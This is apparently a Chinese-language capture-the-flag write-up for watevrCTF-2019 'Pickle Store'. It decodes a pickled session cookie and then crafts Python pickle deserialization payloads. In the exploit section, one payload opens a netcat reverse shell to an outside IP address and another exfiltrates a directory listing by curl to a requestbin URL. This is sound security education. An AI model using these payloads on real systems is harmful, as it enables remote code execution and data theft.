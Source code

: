 # \[watevrCTF-2019]Pickle Store

## \[watevrCTF-2019]Pickle Store

## 考点

* pickle反序列化

## wp

题目名字也提示了是pickle反序列化

先看看session

```
gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu
```

base64解码得到

```
\x80\x03}q\x00(X\x05\x00\x00\x00moneyq\x01M\xf4\x01X\x07\x00\x00\x00historyq\x02]q\x03X\x10\x00\x00\x00anti_tamper_hmacq\x04X \x00\x00\x00aa1ba4de55048cf20e0a7a63b7f8eb62q\x05u.
```

python中使用pickle.dumps()函数序列化，使用pickle.loads()函数反序列化，这两个函数是操作字符串的。

不同版本或者不同平台下Python序列化结果不同

`\x80\x03`是Python pickle反序列化的标准开头

```python
import binascii
import pickle

s='gAN9cQAoWAUAAABtb25leXEBTfQBWAcAAABoaXN0b3J5cQJdcQNYEAAAAGFudGlfdGFtcGVyX2htYWNxBFggAAAAYWExYmE0ZGU1NTA0OGNmMjBlMGE3YTYzYjdmOGViNjJxBXUu'
pickle.loads(binascii.a2b_base64(s))
```

反序列化之后可以得到一个字典

```
{'money': 500, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
```

题目提示够买flag需要1000块，感觉修改字典再序列化

![](<../../.gitbook/assets/image (31) (1).png>)

```python
t = {'money': 1000, 'history': [], 'anti_tamper_hmac': 'aa1ba4de55048cf20e0a7a63b7f8eb62'}
binascii.b2a_base64(pickle.dumps(t))
# b'gASVUgAAAAAAAAB9lCiMBW1vbmV5lE3oA4wHaGlzdG9yeZRdlIwQYW50aV90YW1wZXJfaG1hY5SMIGFhMWJhNGRlNTUwNDhjZjIwZTBhN2E2M2I3ZjhlYjYylHUu\n'
```

尝试失败，再看字典的元素，`anti_tamper_hmac`这个元素在够买后发生了改变，应该是后端对key和value做了某种hash加密，由于不知道加密方式，所以不能修改`money`。

尝试反序列化RCE

```python
import binascii
import pickle

shell = '''__import__('os').system('nc 81.68.218.54 30000 -e/bin/sh')'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

得到`gASVVgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIw6X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ25jIDgxLjY4LjIxOC41NCAzMDAwMCAtZS9iaW4vc2gnKZSFlFKULg==`

修改session刷新页面即可反弹shell

![](<../../.gitbook/assets/image (19) (1) (1).png>)

或者使用[`RequestBin`](http://requestbin.cn)接收数据

```python
import binascii
import pickle

shell = '''__import__('os').system("echo `ls` > /tmp/1.txt;curl -v -X POST 'http://requestbin.cn:80/t9dmemt9' -d @/tmp/1.txt")'''

class Evil(object):
    def __reduce__(self):
        return (eval, (shell,))
s = Evil()
print(binascii.b2a_base64(pickle.dumps(s)))
```

![](<../../.gitbook/assets/image (18).png>)

